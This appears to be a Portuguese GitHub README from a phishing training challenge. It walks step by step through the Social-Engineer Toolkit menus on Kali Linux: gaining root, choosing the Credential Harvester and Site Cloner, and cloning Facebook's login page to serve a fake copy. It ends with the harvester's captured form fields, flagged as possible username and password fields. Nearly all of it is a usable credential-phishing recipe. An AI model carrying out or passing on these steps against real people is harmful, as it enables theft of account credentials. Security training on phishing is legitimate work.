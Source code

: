 # desafio-phishing
'Criação de um Phishing com o Kali Linux'

## No projeto, foram 
utilizados os comandos descritos abaixo:

### Os parênteses foram acrescentados apenas para mostar os comandos usados no projeto

1º) Para estarcomo Root, foi usado o comando = ( sudo su )

2º) Em seguida para iniciar o toolkit, usou-se o seguinte comando = ( setoolkit )

3º) O próximo passo foi selecionar o tipo de ataque = ( set> 1) Social-Engineering Attacks )

4º) Agora para falar de onde o ataque iria partir, usou-se esse comando = ( set> 2) Website Attack Vectors )

5º) Usou-se o seguinte ataque = ( set:webattack>3) Credential Harvester Attack Method )

6º) Logo em seguida foi escolhida a seguinte opção = ( set:webattack>2) Site Cloner )

7º) Para rodar um pequeno servidor com a página falsa, ele precisa do IP da máquina

8º) Depois foi informado qual URL seria clonada = ( set:webattack> Enter the url clone:http://www.facebook.com )

9º) Após a construção da estrutura, copiou-se o IP para acessar a página Fake do Facebook, através da nevegação em Private

- Resultados: 

POSSIBLE USERNAME FIELD FOUND: __user=0                                          
PARAM: __a=1                                                                     
PARAM: __req=f                                                                   
PARAM: __hs=20076.BP:DEFAULT.                                          
PARAM: dp                                                                     
PARAM: __ccg=EXCELLENT                                                           
PARAM: __rev=101                                                         
PARAM: __s=:xpatfq:9                                                       
PARAM: __hsi=7450                                                 
PARAM: __dyn=7xe6E5a                               
PARAM: __csr=                                                                    
PARAM: lsd=AV                                                         
PARAM: jazoest=21111                                                             
POSSIBLE PASSWORD FIELD FOUND: __spin_r=10                              
POSSIBLE PASSWORD FIELD FOUND: 
